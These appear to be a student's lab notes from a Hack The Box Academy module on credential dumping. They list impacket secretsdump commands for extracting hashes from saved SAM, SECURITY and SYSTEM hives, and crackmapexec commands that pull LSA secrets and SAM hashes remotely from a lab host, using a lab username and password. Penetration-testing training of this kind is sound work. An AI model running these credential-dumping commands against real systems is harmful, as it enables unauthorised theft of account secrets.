 
![[Pasted image 20240911140023.png]]Dumping hashes with impacket
![[Pasted image 20240911220611.png]]
```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL


impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

Dumping LSA Remotely 
![[Pasted image 20240911222543.png]]
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
Dumping SAM Remotely
![[Pasted image 20240911222626.png]]
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

